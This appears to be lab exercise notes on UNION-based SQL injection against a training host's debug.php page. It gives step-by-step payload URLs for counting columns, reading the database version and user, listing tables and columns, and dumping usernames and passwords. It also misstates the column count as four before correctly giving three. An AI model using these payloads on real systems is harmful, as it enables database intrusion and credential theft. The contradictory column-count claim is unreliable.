

9.4.5.9

# 9.4.5.9
## 9.4.5.9.1. Enumerate the structure of the database using SQL injection.

In this example, we will use the debug.php to demonstrate this. We input the following and see an SQL syntax error, which might signal the presence of SQLi vulnerability.
`http://192.168.214.10/debug.php?id='`

### Column Number enumeration
Observe `http://192.168.214.10/debug.php?id=1 order by 1`

Open Burpsuite and send the same order by 1 record to Repeater. Notice it is percent encoded. Check the response for 'Error'. We find no errors.

Change the GET request to order by 2. Again no errors.

Change the GET request to order by 3. Again no errors.

Change the GET request to order by 4. We find an error. This means that there are 4 columns in this query.

### Understand the layout of the output
We know there are 3 columns, and we observe the "1" does not render, but "2" renders in the username column, and "3" renders in the comment column. The comment column is suitable for our exploit because it has more space.
`http://192.168.214.10/debug.php?id=1 union all select 1, 2, 3`

### Extracting data from the database
Get the version
`http://192.168.214.10/debug.php?id=1 union all select 1, 2, @@version`

Get the current database user
`http://192.168.214.10/debug.php?id=1 union all select 1, 2, user()`

## 9.4.5.9.2. Understand how and why you can pull data from your injected commands and have it displayed on the screen.

## 9.4.5.9.3. Extract all users and associated passwords from the database.
Get the database tables and column structures. The 'usernames' table looks interesting.
`http://192.168.214.10/debug.php?id=1 union all select 1, 2, table_name from information_schema.tables`

Get the column names from the users table
`http://192.168.214.10/debug.php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'`

Display the usernames and passwords from the users table
`http://192.168.214.10/debug.php?id=1 union all select 1, username, password from users`

